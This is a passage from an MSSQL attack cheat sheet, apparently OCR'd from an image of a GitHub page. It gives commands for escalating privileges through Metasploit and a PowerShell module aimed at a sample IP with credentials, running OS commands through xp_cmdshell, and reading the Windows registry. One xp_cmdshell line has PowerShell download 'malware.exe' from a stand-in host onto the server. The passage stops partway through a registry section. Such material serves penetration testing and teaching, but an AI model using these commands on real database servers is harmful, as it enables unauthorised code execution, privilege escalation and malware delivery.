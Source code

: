     ```c
    EXEC xp_cmdshell 'echo Some data > C:\path\to\file.txt';
    ```

**Using Metasploit**

*   **Metasploit:**

    ```bash
    msf> auxiliary/admin/mssql/mssql_escalate_execute_as
    ```

**Using PowerShell**

*   **PowerShell:**

    ```powershell
    Import-Module .Invoke-SqlServer-Escalate-ExecuteAs.psm1
    Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance 10.2.9.101 -SqlUser myuser1 -SqlPass MyPassword!
    ```

#### Remote Code Execution

*   MSSQL could allow you to execute scripts in Python and/or R. These will be executed by a different user than the one using xp\_cmdshell to execute commands.

    ```c
    EXEC xp_cmdshell 'powershell -command "Invoke-WebRequest -Uri http://example.com/malware.exe -OutFile C:\temp\malware.exe"';
    ```

#### Read Registry

* Microsoft SQL Server provides multiple extended stored procedures that allow you to interact with not only the network but also the file system and even the Windows Registry:

| **Regular**                  | **Instance-Aware**                     |
| ---------------------------- | -------------------------------------- |
| sys.xp\_regread              | sys.xp\_instance\_regread              |
| sys.xp\_regenumvalues        | sys.xp\_instance\_regenumvalues        |
| sys.xp\_regenumkeys          | sys.xp\_instance\_regenumkeys          |
| sys.xp\_regwrite             | sys.xp\_instance\_regwrite             |
| sys.xp\_regdeletevalue       | sys.xp\_instance\_regdeletevalue       |
| sys.xp\_regdeletekey         | sys.xp\_instance\_regdeletekey         |
| sys.xp\_regaddmultistring    | sys.xp\_instance\_regaddmultistring    |
| sys.xp\_regremovemultistring | sys.xp\_instance\_regremovemultistring |

*   **Read Registry:**

    ```c
    EXECUTE master.sys.xp_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\Microsoft SQL Server\MSSQL12.SQL2014\SQLServerAgent', 'WorkingDirectory';
    ```
*   **Write and then read registry:**
